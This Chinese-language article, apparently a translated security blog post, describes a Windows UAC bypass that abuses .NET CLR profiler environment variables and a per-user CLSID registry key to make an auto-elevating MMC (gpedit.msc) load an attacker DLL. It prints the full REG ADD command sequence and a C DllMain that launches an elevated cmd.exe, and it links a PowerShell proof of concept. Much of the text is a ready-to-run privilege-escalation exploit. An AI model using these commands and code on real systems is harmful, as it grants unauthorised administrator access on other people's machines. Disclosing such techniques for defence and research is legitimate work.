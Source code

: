 ****

我们可以使用如下环境变量，使.NET应用加载任意DLL：

```
COR_ENABLE_PROFILING=1 COR_PROFILER=`{`GUID`}` COR_PROFILER_PATH=C:pathtosome.dll
```

对于4.0以下版本的 .NET，我们必须在注册表中的**HKCRCLSID`{`GUID`}`InprocServer32**路径下定义CLSID键值，并包含profiling DLL的具体路径。在最新的版本中，CLR（Common Language Runtime，公共语言运行库）使用**CORPROFILERPATH**这个环境变量来寻找DLL，如果未定义**CORPROFILERPATH**环境变量，那么CLR会继续使用CLSID这种寻路机制。

**HKCRCLSID**同时代表着HKLM以及HKCU中的**SoftwareClassesCLSID**路径。在HKLM（或者主机级别的环境变量）中创建CLSID键值需要提升权限，然而在HKCU中创建相应键值却可以绕过权限限制。关键点在于，**用户级别的环境变量以及注册表项不会对程序的正常运行造成任何影响**。

现在，我们只需要一个可以自动提升权限（默认设置下不会出现UAC提示符）的可执行程序，然后使用 .NET CLR来加载我们伪造的profiler DLL即可。MMC是非常适合的一个目标，在我的测试过程中，我使用的是gpedit MMC，当然还有其他MMC可用（稍后我会给出具体列表）。

我们只需要如下几条批处理命令，就能完成这个任务：

```
REG ADD "HKCUSoftwareClassesCLSID`{`FFFFFFFF-FFFF-FFFF-FFFF-FFFFFFFFFFFF`}`InprocServer32" /ve /t REG_EXPAND_SZ /d "C:Temptest.dll" /f
REG ADD "HKCUEnvironment" /v "COR_PROFILER" /t REG_SZ /d "`{`FFFFFFFF-FFFF-FFFF-FFFF-FFFFFFFFFFFF`}`" /f
REG ADD "HKCUEnvironment" /v "COR_ENABLE_PROFILING" /t REG_SZ /d "1" /f
REG ADD "HKCUEnvironment" /v "COR_PROFILER_PATH" /t REG_SZ /d "C:Temptest.dll" /f
mmc gpedit.msc
```

在普通权限的命令提示符中运行这些命令后，我们就可以在mmc.exe特权进程中加载**C:Temptest.dll**（当然前提是这个文件存在）。

通过这种方式，我们可以绕过Windows 7到10系统（包括最新的RS3版本）上使用默认配置的UAC机制。

[![](https://p3.ssl.qhimg.com/t016941f9a4399e1138.png)](https://p3.ssl.qhimg.com/t016941f9a4399e1138.png)

PowerShell版本的PoC代码参考[此链接](https://gist.github.com/clavoillotte/f2fba9fa4ba8db14093a62164963d4a9)，PoC中内置了一个64位的DLL。

这个DLL仅有的功能是当DLLPROCESSATTACH时运行cmd.exe，获得特权命令行shell，然后立刻退出当前进程以避免弹出MMC控制台。



```
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) `{` char cmd[] = "cmd.exe";
switch (fdwReason)
`{`
case DLL_PROCESS_ATTACH:
    WinExec(cmd, SW_SHOWNORMAL);
    ExitProcess(0);
    break;
case DLL_THREAD_ATTACH:
    break;
case DLL_THREAD_DETACH:
    break;
case DLL_PROCESS_DETACH:
    break;
`}`
return TRUE;
`}`
```
